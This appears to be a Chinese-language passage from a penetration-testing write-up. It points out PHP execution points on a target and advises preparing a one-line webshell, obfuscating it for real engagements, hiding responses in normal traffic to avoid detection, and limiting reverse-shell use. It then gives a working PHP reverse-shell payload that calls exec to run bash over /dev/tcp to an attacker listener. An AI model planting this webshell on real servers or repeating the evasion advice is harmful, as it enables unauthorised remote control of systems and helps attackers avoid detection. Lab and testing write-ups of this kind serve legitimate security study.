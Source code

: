 
![image-20240608004105776](./assets/image-20240608004105776.png)

一看到处都是攻击面，首先就可以发现大量php执行。准备一句话木马，实战环境中务必混淆，变型，能不反弹shell尽量不要反弹shell。

否则怎么死的都不知道，将请求返回信息尽量都藏在网页正常请求中，不要调用/bin/bash能用php脚本完成的尽量用脚本完成。

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.50.129/5050 0>&1'"); ?>
```

<img src="./assets/image-20240609011319770.png" alt="image-20240609011319770" style="zoom: 67%;" />
